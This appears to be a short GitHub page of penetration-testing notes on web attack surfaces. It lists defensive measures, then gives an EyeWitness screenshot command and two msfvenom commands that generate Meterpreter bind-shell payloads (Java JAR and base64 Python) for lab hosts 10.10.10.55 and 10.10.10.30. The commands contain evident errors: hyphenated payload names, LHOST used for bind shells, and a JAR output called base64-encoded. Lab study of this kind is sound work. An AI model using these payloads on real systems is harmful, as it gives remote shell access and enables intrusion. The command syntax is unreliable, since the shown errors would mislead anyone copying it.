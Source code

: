 Web-based attack surfaces encompass web application interfaces, authentication mechanisms, APIs, and server configurations. These areas can present security risks such as SQL injection or session hijacking. Key security measures include:

- Input validation
- Secure session management
- Keeping software updated

Addressing vulnerabilities in these areas helps protect against exploits and enhances overall web security.

### Using Eyewitness for Web Server Screenshots

To take screenshots of servers, including those on non-standard HTTP/HTTPS ports, use the following bash command:

eyewitness -f hosts.txt --web --resolve --ports 80,443,8080,8443

### Generating Payloads with msfvenom

To generate a base64-encoded payload that triggers a TCP bind shell on execution on host 10.10.10.55 (Apache Tomcat), use this command:

msfvenom -p java/meterpreter/bind-tcp LHOST=10.10.10.55 LPORT=4444 -f jar

For a payload that triggers a TCP bind shell on execution on host 10.10.10.30 (Python Server), use this command:

msfvenom -p python/meterpreter/bind-tcp LHOST=10.10.10.30 LPORT=4444 -e base64

These commands will help you create the necessary payloads for your penetration testing tasks.
![web_attack-surfaces_1](Images/web_attack-surfaces_1.png)

![WBAS](Images/WBAS.png)
